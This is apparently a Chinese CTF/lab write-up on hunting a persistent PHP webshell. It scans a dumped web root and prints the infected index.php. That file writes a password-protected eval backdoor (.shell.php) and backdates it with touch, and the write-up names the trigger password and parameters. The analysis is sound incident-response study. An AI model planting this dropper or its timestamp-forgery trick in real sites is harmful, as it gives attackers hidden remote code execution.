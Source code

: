 ### 不死马查杀

话不多说，直接上题（玄机靶场）

![](https://pic1.imgdb.cn/item/681d5cc858cb8da5c8e738d3.png)

到 `/var/www` 把 `html` 目录 dump 下来

```
tar -czvf html.tar.gz ./
```

丢 D 盾开扫，扫出来结果如下

```shell
id      级别  大小       CRC        修改时间             文件 (说明)
--------------------------------------------------------------------------------------------------------------------------------------------
00001   4     88         70B2B130   21-01-01 08:00:01    \.shell.php    『Eval后门 {参数:$_POST[cmd]}』
00002   4     24         F46D132A   23-08-03 10:15:23    \1.php         『Eval后门 {参数:$_POST[1]}』
00003   1     655360     A3580725   23-08-03 10:45:11    \html\1.tar         『可疑文件』
00004   1     722        17D041A4   23-08-03 10:40:18    \html\index.php     『可疑文件』
--------------------------------------------------------------------------------------------------------------------------------------------
```

其中 `1.php` 就是第一问的答案

`.shell.php` 是隐藏文件，先看看 `index.php`

![](https://pic1.imgdb.cn/item/681d5df758cb8da5c8e73d97.png)

```php
<?php  
    include('config.php');  
    include(SYS_ROOT.INC.'common.php');  
    $path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');  
    if(substr($path, 0,1)=='/'){  
        $path=substr($path,1);  
    }  
    $path = Base::safeword($path);  
    $ctrl=isset($_GET['action'])?$_GET['action']:'run';  
    if(isset($_GET['createprocess']))  
    {  
        Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);  
    }else{  
        Index::run($path);  
    }  
    $file = '/var/www/html/.shell.php';  
    $code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';  
    file_put_contents($file,$code);  
    system('touch -m -d "2021-01-01 00:00:01" .shell.php');  
    usleep(3000);  
?>
```

核心代码如下：

```php
$file = '/var/www/html/.shell.php';  
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';  
file_put_contents($file,$code);  
```

在网站根目录下写入文件：`.shell.php`

内容是一个典型的**隐藏 Web Shell**：

- 利用 `md5("hello") == 5d41402abc4b2a76b9719d911017c592`

- POST 请求中需包含：

  ```
  pass = hello
  cmd = php代码
  ```

  符合条件时，执行 `eval($_POST['cmd'])` —— 极其危险，可远程任意执行代码

再就是隐蔽性处理

```php
system('touch -m -d "2021-01-01 00:00:01" .shell.php');  
usleep(3000);
```

利用 `touch` 修改`.shell.php` 的修改时间，伪装成旧文件，**绕过管理员人工检查**

`usleep(3000)`（3毫秒延时）可能是为了模仿正常运行延迟
